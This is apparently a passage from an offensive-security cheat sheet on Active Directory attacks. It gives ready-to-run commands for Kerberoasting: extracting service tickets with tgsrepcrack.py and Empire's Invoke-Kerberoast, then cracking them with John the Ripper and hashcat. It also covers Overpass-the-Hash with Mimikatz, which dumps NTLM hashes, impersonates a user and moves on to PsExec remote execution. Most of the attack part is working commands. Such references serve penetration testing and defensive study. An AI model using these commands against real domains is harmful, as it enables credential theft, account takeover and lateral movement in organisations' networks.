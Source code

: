 ### Kerberoasting

Goal: Retrieve service tickets then attempt to crack them (JTR, Hashcat) to obtain service account password.

#### Using tgsrepcrack.py

```
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt kerberos_ticket.kirbi
```

#### Using Invoke-Kerberoast into JTR or Hashcat

* [https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)

```
Invoke-Kerberoast -OutputFormat john | % { $_.Hash } | Out-File -Encoding ASCII hashes.lst

# Previous format may be wrong
Invoke-Kerberoast | % { $_.Hash } | % { $_.replace('krb5tgs$', 'krb5tgs$23$*') } | % { $_ -replace "(.*):(.*)", '$1*$$$2' } | % { $_.replace(':', '~') } | Out-file -FilePath .\ha
shes.txt -Encoding utf8
john --format=krb5tgs --wordlist=wordlist.txt hashes.txt

Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.txt
hashcat -m 13100 -a 0 -o cracked.txt hashes.txt wordlist.txt
```

### Overpass-the-Hash

Goal: convert a cached NTLM hash into a Kerberos TGT.

Using Mimikatz \[requires local admin]:

* `sekurlsa::logonpasswords` to show available NTLM hashes
* `sekurlsa::pth` to start a Powershell process in the context of the target user, using his NTLM hash

```
sekurlsa::pth /user:admin /domain:example.com /ntlm:<HASH> /run:PowerShell.exe
```

Inside the new Powershell session:

* Check cached tickets using `klist`
* If no TGT is cached, generate one by triggering an authentication over the domain. Example: authenticating on a network share

```
net use \\dc01
```

* When a TGT is cached, it is possible to use any tool requiring Kerberos authentication. Example: using the official PsExec binary to obtain RCE
